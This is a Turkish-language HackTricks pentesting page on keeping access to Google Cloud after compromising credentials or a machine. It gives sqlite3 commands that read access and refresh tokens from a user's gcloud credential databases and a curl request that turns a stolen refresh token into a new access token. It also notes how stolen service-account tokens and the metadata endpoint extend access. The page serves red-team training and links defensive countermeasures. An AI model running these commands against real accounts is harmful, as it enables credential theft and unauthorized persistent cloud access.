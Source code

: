 # GCP - Hizmet Dışı Kalıcılık

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

- Şirketinizin **HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın.
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**The PEASS Family**]'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
- 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin**.
- **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**] ve [**HackTricks Cloud**] github depolarına katkıda bulunun.

</details>

Bunlar, bir şekilde GCP kimlik bilgilerini veya GCP ortamında çalışan bir makineyi ele geçirdikten sonra kullanışlı tekniklerdir.

## Token Kaçırma

### Doğrulanmış Kullanıcı Tokenları

Bir kullanıcının **mevcut token**'ını almak için şunu çalıştırabilirsiniz:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Bu sayfada bu belirteci **gcloud kullanarak doğrudan nasıl kullanacağınızı** kontrol edin:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Yeni bir erişim belirteci **oluşturmak için ayrıntıları almak** için çalıştırın:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Yenilenmiş bir erişim belirteci almak için **yenileme belirteci**, istemci kimliği ve istemci sırrını çalıştırın:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Yenileme token'larının geçerliliği **Yönetici** > **Güvenlik** > **Google Cloud oturum kontrolü** bölümünde yönetilebilir ve varsayılan olarak 16 saat olarak ayarlanmıştır, ancak süresiz olarak ayarlanabilir:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Hizmet Hesapları

Kimliği doğrulanmış kullanıcılarda olduğu gibi, bir hizmet hesabının **özel anahtar dosyasını ele geçirirseniz genellikle istediğiniz sürece erişebilirsiniz**.\
Ancak, bir hizmet hesabının **OAuth belirteci**ni çalarsanız, bu daha da ilginç olabilir, çünkü varsayılan olarak bu belirteçler genellikle sadece bir saat için kullanışlı olsa da, **kurban özel API anahtarını sildiğinde, OAuth belirteci yine de süresi dolana kadar geçerli olacaktır**.

### Meta Veri

Açıkçası, GCP ortamında çalışan bir makinede olduğunuz sürece, **metadata uç noktasına başvurarak o makineye bağlı hizmet hesabına erişebilirsiniz** (bu uç noktada erişebileceğiniz OAuth belirteçleri genellikle kapsamlarla sınırlıdır).

### Çözümler

Bu teknikler için bazı çözümler [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) adresinde açıklanmıştır.

## Referanslar

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [Discord grubuna](https://discord.gg/hRep4RUj7f) veya [telegram grubuna](https://t.me/peass) katılın veya bizi** Twitter'da 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
